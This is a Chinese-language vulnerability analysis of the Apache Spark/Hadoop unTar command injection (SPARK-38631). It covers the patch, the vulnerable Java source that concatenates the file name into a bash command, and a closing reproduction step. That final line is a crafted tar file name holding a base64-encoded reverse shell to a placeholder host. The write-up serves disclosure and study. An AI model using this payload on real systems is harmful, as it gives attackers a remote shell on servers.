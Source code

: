 # Apache Spark unTarUsingTar 命令注入漏洞 SPARK-38631

## 漏洞描述

Apache Spark 是一种用于大数据工作负载的分布式开源处理系统。它使用内存中缓存和优化的查询执行方式，可针对任何规模的数据进行快速分析查询。它提供使用Java、Scala、Python 和 R 语言的开发 API，支持跨多个工作负载重用代码—批处理、交互式查询、实时分析、机器学习和图形处理等。当Spark任务的文件名可控时，`Utils.unpack`采用命令拼接的形式对tar文件进行解压，存在任意命令注入的风险。这是源于Hadoop中unTar函数存在问题，在其执行shell命令之前未正确转义文件名，直接拼接命令导致任意命令注入。

## 漏洞影响

Apache Spark 3.1.2, 3.2.1, 3.3.0

## 漏洞复现

我们查看官方的修复补丁

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649056170245-0002d819-b071-4ae4-b542-a5b949a68a2f.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649056263083-dd43291e-4350-4e7b-9d5f-898989fc9da7.png)

官方修复针对.tar后缀的压缩包调用了新增的unTarUsingJava函数来进行处理，我们下载存在漏洞的版本看一下漏洞位置

```php
hadoop-common-2.7.4.jar!/org/apache/hadoop/fs/FileUtil.class
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649056439530-2fa3df48-184b-4eac-ac13-01bf51fd9490.png)

可以看到漏洞主要出现在 Linux对文件的解压处理中

```php
public static void unTar(File inFile, File untarDir) throws IOException {
        if (!untarDir.mkdirs() && !untarDir.isDirectory()) {
            throw new IOException("Mkdirs failed to create " + untarDir);
        } else {
            boolean gzipped = inFile.toString().endsWith("gz");
            if (Shell.WINDOWS) {
                unTarUsingJava(inFile, untarDir, gzipped);
            } else {
                unTarUsingTar(inFile, untarDir, gzipped);
            }

        }
    }
```

这里我们控制压缩tar文件的文件名就可以进行命令注入

```php
private static void unTarUsingTar(File inFile, File untarDir, boolean gzipped) throws IOException {
        StringBuffer untarCommand = new StringBuffer();
        if (gzipped) {
            untarCommand.append(" gzip -dc '");
            untarCommand.append(makeShellPath(inFile));
            untarCommand.append("' | (");
        }

        untarCommand.append("cd '");
        untarCommand.append(makeShellPath(untarDir));
        untarCommand.append("' ; ");
        untarCommand.append("tar -xf ");
        if (gzipped) {
            untarCommand.append(" -)");
        } else {
            untarCommand.append(makeShellPath(inFile));
        }

        String[] shellCmd = new String[]{"bash", "-c", untarCommand.toString()};
        ShellCommandExecutor shexec = new ShellCommandExecutor(shellCmd);
        shexec.execute();
        int exitcode = shexec.getExitCode();
        if (exitcode != 0) {
            throw new IOException("Error untarring file " + inFile + ". Tar process exited with exit code " + exitcode);
        }
    }
```

创建Tar文件, 在使用 addArchive执行解压就可以注入恶意命令

```php
touch '1\|{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}\|1.tar'
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649060584363-166e77a0-eafc-4398-a438-b84267b9b61a.png)